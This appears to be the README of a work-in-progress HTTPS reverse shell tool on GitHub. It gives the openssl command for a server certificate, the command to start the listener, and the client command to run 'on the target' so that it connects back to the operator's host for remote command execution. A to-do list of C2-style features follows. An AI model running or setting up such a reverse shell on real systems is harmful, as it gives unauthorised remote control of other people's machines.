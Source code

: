 # HTTPS Reverse Shell

**Work in Progress!** 

I hacked this together in two days, so take care.

It basically works, but a lot of stuff is still missing/hacky. Especially if two clients connect at the same time, things get wild.

## Create Cert and Key for server

```bash
openssl req -new -newkey rsa:4096 -days 730 -nodes -x509 -keyout server.key -out server.crt
```

When prompted write whatever. Or mash enter. Put these in the same directory as the server or supply the paths via command line arguments.

## Howto

On your own machine (use sudo/root for low ports):

```bash
sudo python3 server.py -p 443
```

On the target:

```bash
python3 client.py -p 443 -t <your_ip_or_hostname>
```
or 
```bash
python client.py -p 443 -t <your_ip_or_hostname>
```

Use the parameter `--help` on either to see all possible parameters.

The server requires python3. The client works with both Python 2.7 and Python 3.

## Requirements

None

## ToDo

* Monitor status of client
* Handle multiple clients
* Proper client session instead of just RCE
* Python2 version of client [done]
* C version of client
* Actually take Content-Length into account for big responses [done]
* Auto-create key/cert
* Control client polling speed
* Put client into sleep mode
* Reasonable retries by the client if server does not exist/respond (yet)
